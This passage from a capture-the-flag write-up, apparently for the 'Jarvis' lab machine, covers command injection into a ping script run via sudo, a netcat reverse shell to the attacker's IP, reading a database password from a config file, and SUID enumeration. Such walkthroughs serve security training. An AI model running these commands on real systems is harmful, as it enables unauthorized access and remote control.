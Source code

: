 Notice that the ping function will execute:
```
os.system('ping ' + command)
```
but we have to be careful what characters we use, some are 'forbidden'!!!

```
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

10.10.14.7 $(/bin/bash)
```

this gets us a restricted shell for `pepper`.

Another netcat reverse-shell gets us a better one!

```
nc -nv 10.10.14.7 6969 -e /bin/bash
```

then

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Happy!

Lets get pepper's user flag.

```

pepper@jarvis:/var/www/Admin-Utilities$ cat /home/pepper/user.txt
cat /home/pepper/user.txt
2axxxxxxxxxxxxxxxxxxxxxxxxxxx4f
pepper@jarvis:/var/www/Admin-Utilities$ 

```


<h3>Privesc to Root</h3>


```

pepper@jarvis:/var/www/html$ cat connection.php
cat connection.php
<?php
$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
?>
pepper@jarvis:/var/www/html$

```

Any suid binaries to exploit?
```
find / -perm -u=s -type f 2>/dev/null

/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```
